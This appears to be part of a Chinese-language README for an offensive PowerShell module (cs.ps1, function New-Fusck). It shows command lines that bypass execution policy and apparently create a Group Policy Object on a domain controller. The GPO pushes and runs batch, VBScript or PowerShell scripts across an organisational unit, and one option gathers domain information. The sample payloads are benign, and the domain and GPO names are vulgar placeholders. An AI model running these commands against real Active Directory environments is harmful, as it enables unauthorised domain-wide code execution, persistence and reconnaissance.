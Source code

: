 

```
powershell -executionpolicy bypass -command "& { import-module C:\Path\To\cs.ps1; New-Fusck -DCFqdn WIN-ER6H1V81DV9.mother.fucker -CPFqdn WIN-ER6H1V81DV9.mother.fucker -BackupPath C:\users\public\downloads -GPODisplayName fuck_your_mother -ScriptPath C:\Path\To\test.bat -OUPath 'DC=mother,DC=fucker' -User mother.fucker\test }"
```

### 用法3：执行vbs脚本

示例vbs脚本：

```vbscript
Set objFSO=CreateObject("Scripting.FileSystemObject")
outFile="c:\222222222222222222222222222222.inf"
Set objFile = objFSO.CreateTextFile(outFile,True)
objFile.Write "test222222222222222 string" & vbCrLf
objFile.Close
```



```
powershell -executionpolicy bypass -command "& { import-module C:\Path\To\cs.ps1; New-Fusck -DCFqdn WIN-ER6H1V81DV9.mother.fucker -CPFqdn WIN-ER6H1V81DV9.mother.fucker -BackupPath C:\users\public\downloads -GPODisplayName fuck_your_mother -ScriptPath C:\Path\To\test.vbs -OUPath 'DC=mother,DC=fucker' -User mother.fucker\test }"
```

### 用法4：执行ps1脚本

示例ps1脚本

```
function test {
Get-Process | Out-File -FilePath C:\poweppppppppppppp.txt -NoClobber | out-null
}
```



```
powershell -executionpolicy bypass -command "& { import-module C:\Path\To\cs.ps1; New-Fusck -DCFqdn WIN-ER6H1V81DV9.mother.fucker -CPFqdn WIN-ER6H1V81DV9.mother.fucker -BackupPath C:\users\public\downloads -GPODisplayName fuck_your_mother -ScriptPath C:\Path\To\test.ps1 -OUPath 'DC=mother,DC=fucker' -User mother.fucker\test -ScriptArg test }"
```



### 用法5：搜集信息

```
powershell -executionpolicy bypass -command "& { import-module C:\Path\To\cs.ps1; New-Fusck -DCFqdn WIN-ER6H1V81DV9.mother.fucker -CPFqdn WIN-ER6H1V81DV9.mother.fucker -BackupPath C:\users\public\downloads -GPODisplayName fuck_your_mother -OUPath 'DC=mother,DC=fucker' -User mother.fucker\test -IG }"
```
